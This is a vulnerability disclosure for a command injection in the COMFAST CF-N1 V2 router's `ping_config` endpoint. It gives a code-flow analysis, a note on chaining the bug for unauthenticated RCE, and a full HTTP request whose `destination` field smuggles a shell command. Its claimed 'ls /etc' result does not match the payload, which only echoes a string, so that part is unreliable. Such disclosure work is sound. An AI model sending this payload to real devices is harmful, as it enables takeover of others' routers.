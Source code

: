 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `ping_config`

PS:

1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) in the `ping_config` API (`/usr/bin/webmgnt`, function `sub_441EC4`). Attackers can inject arbitrary commands via a user-controlled parameter involved in ping configuration, enabling unauthorized execution of system commands, sensitive information access, or full device compromise.

![PoC 2 Result: Root Directory Listing](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: http://www.comfast.com.cn/index.php?m=content&c=index&a=show&catid=31&id=772

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=ping_config`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_441EC4` function handling the `ping_config` section. Analysis of the disassembly shows that a user-controlled parameter is unsanitized and directly used in a command construction process.

Key code flow:



1.  The function parses user input via `blobmsg_parse_0`, extracting configuration parameters (including the vulnerable parameter).

2.  The extracted parameter (`v4`) is inserted into a command string using `sprintf_0(v8, &aBinPing4C4W2ST..., v4)`, where `aBinPing4C4W2ST` likely represents a ping command template (e.g., `ping -c 4 %s`).

3.  The constructed command is executed via `system_0(v8)`, with no input sanitization to block malicious command separators.

This allows attackers to inject arbitrary commands by adding delimiters (e.g., `&&`, `;`, `|`) to the vulnerable parameter, as the input is directly concatenated into the executed system command.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: List `/etc` Directory Contents



```
POST /cgi-bin/mbox-config?method=SET&section=ping_config HTTP/1.1
Host: cflogin.cn
Content-Length: 76
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"destination": "127.0.0.1\"; echo  ping config >  /www-comfast/test.txt #"}
```


*   **Assumptions**: The vulnerable parameter is named `destination`.

*   **Steps**:

1.  Send the POST request using `curl`, Burp Suite, or similar tools.

2.  Access `http://cflogin.cn/test.txt` to view the contents of the `/etc` directory.

*   **Result**: The output of `ls /etc` is written to `/www-comfast/test.txt`, confirming arbitrary command execution.
*   
![PoC 2 Result: Root Directory Listing](./imgs/3.png)

